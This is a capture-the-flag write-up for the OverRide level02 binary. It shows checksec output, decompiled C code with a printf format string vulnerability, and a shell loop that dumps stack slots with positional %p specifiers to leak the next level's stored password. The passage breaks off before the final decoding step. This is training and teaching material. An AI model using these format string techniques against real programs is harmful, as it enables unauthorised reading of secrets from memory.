 # level02

### First analysis

Let's first analyse the code and checksec of this level, so first with the checksec:

```sh
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level02/level02
```

As we can see there is the minimum security on this binary, no RELRO, so GOT overwrite would be possible and NX is disabled so the stack is executable, shellcode in env variable would be possible too. Let's now analyse the code.

```c
int main(void) {
    char    password[41];
    char    username[96];
    char    input_password[96];
    int     length;
    FILE    *fd;
    
    memset(password, 0, 41);
    memset(username, 0, 96);
    memset(input_password, 0, 96);

    fd = fopen("home/users/level03/.pass", "r");
    if (!fd) {
        fwrite("ERROR: failed to open password file\n", 1, 36, stderr);
        exit(1);
    }

    length = fread(password, 1, 41, fd);
    password[strcspn(password, "\n")] = '\0';

    if (length != 41) {
        fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
        fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
        exit(1);
    }
    fclose(fd);

    puts("===== [ Secure Access System v1.0 ] =====");
    puts("/***************************************\\");
    puts("| You must login to access this system. |");
    puts("\\**************************************/");
    
    printf("--[ Username: ");
    fgets(username, sizeof(username), stdin);
    username[strcspn(username, "\n")] = '\0';

    printf("--[ Password: ");
    fgets(input_password, sizeof(input_password), stdin);
    input_password[strcspn(input_password, "\n")] = '\0';
    puts("*****************************************");

    if (strncmp(password, input_password, 41) == 0) {
        printf("Greetings, %s!\n", username);
        system("/bin/sh");
        return 0;
    }

    printf(username);
    puts(" does not have access!");
    exit(1);
}
```

There are a lot of security measures taken in this program such as checking the '\0' on every input or using fgets() with a sizeof to be sure not to go over the buffer size. However one thing had been forgotten, as we can see a "printf(username);" is used, which represent a Format String Vulnerability. This means that we can read the stack with this kind of exploit and write using %n at any address. Even after knowing that, we can notice that the password of level3 is read and stored into password buffer, which mean that coupled with the FSV, we could read the password buffer and access to the password without needing to write anything anywhere. Let's first check confirm that this vulnerability works:

```sh
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %x %x
--[ Password: 
*****************************************
ffffe500 0 does not have access!
```

We place %x into username field, because it is the one used in the FSV and it is interpreted, so we indeed have a Format String Vulnerability.

### Solution

The buffer of username is limited, we have 41 characters which mean we can print 20 stack memory slot. Maybe it won't be sufficient to print fully the password buffer, so we did a command that prints the 100 firsts stack memory slot:

```sh
for (( i = 1; i < 100; i++ )); do   echo "%$i\$18p" | ./level02 | awk '/does not have access/'; done
```

What it does is using this synthax %4$18p for example, that prints the 4th memory space of the stack with a size of 18. We then only selects the lines that contains "does not have access" in order to avoid all the prompts and puts() made by the program, and we do this from 1 to 100.

```sh
level02@OverRide:~$ for (( i = 1; i < 100; i++ )); do   echo "%$i\$18p" | ./level02 | awk '/does not have access/'; done
    0x7fffffffe500 does not have access!
             (nil) does not have access!
             (nil) does not have access!
0x2a2a2a2a2a2a2a2a does not have access!
0x2a2a2a2a2a2a2a2a does not have access!
    0x7fffffffe6f8 does not have access!
       0x1f7ff9a08 does not have access!
[...]
       0x100000000 does not have access!
             (nil) does not have access!
0x756e505234376848 does not have access!
0x45414a3561733951 does not have access!
0x377a7143574e6758 does not have access!
0x354a35686e475873 does not have access!
0x48336750664b394d does not have access!
          0xfeff00 does not have access!
  0x70383124383225 does not have access!
[...]
      0x2900000000 does not have access!
          0x602010 does not have access!
             (nil) does not have access!
    0x7ffff7a3d7ed does not have access!
[...]
```

Here we only select parts that allows us to explain what we see. The padding allows us to read things more clearly. So first we can see these "2a2a2a2a2a2a2a2a", this is just the '*' char repeated again and again, probably what's printed by the program after input_password. There are a bunch of (nil) addresses, then we can see 5 addresses that doesn't look like actual addresses. and at the end we can see some elements that looks like some actual addresses. Let's focus on these weird elements that doesn't look like addresses, if they correspond to ascii characters, it probably means we are in the right direction. By using a converter we get that:

```
756e50523437684845414a3561733951377a7143574e6758354a35686e47587348336750664b394dfeff00

=

unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9Mþÿ 
```

These hexadecimal elements are indeed corresponding to ascii characters besides the 3 lasts ones. We can try to enter this as a password (removing the 3 lasts chars) for level03 but it won't work. Let's take again the part of the memory we are analysing:

```sh
0x756e505234376848 does not have access!
0x45414a3561733951 does not have access!
0x377a7143574e6758 does not have access!
0x354a35686e475873 does not have access!
0x48336750664b394d does not have access!
          0xfeff00 does not have access!
```
We know that in c, a string is null ended, so it ends with '\0', in hexadecimal '00', which could correspond to the last line after the feff. Why after ? Because we have to remember that this machine is in little endian format, so we have to read the addresses upside down if we want to read them correctly. So let's write a little code that put every element in big endian, then translate it in ascii.

## Important doc

[Hex to Ascii converter](https://www.rapidtables.com/convert/number/hex-to-ascii.html)